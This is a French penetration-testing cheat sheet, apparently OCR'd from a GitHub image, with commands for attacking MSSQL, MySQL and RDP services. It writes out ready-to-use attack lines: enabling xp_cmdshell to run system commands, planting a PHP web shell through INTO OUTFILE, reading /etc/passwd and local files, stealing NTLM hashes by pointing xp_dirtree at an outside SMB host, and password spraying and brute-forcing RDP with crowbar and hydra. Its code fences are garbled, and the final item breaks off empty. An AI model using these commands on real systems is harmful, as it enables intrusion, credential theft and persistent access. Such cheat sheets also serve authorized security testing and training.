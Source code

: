 ```shell
### Pour autoriser la modification des options avancées
```bash
`sqlcmd> EXECUTE sp_configure 'show advanced options', 1`
```shell
### Pour activer xp_cmdshell
```bash
`sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`
```shell
### À utiliser après chaque commande sp_configure pour appliquer les modifications
```bash
`sqlcmd> RECONFIGURE`
```shell
### Exécuter une commande système depuis le serveur MSSQL
```bash
`sqlcmd> xp_cmdshell 'whoami'`
```shell
### Créer un fichier en utilisant MySQL
```bash
`mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'`
```shell
### Vérifier si les privilèges de fichier sécurisé sont vides pour lire les fichiers stockés localement sur le système
```bash
`mysql> show variables like "secure_file_priv";`
```shell
### Lire des fichiers locaux dans MSSQL
```bash
`sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`
```shell
### Lire des fichiers locaux dans MySQL
```bash
`mysql> select LOAD_FILE("/etc/passwd");`
```shell
### Vol de hachages en utilisant la commande xp_dirtree dans MSSQL
```bash
`sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'`
```shell
### Vol de hachages en utilisant la commande xp_subdirs dans MSSQL
```bash
`sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'`
```shell
### Identifier les serveurs liés dans MSSQL
```bash
`sqlcmd> SELECT srvname, isremote FROM sysservers`
```shell
### Identifier l'utilisateur et ses privilèges utilisés pour la connexion distante dans MSSQL
```bash
`sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`
```shell
---

### Attacking RDP

### Pulvérisation de mot de passe contre le service RDP
```bash
`crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`
```shell
### Force brute du service RDP
```bash
`hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`
```shell
### Connexion au service RDP en utilisant rdesktop sous Linux
```bash
`rdesktop -u admin -p password123 192.168.2.143`
```shell
### Usurper un utilisateur sans son mot de passe
```bash
```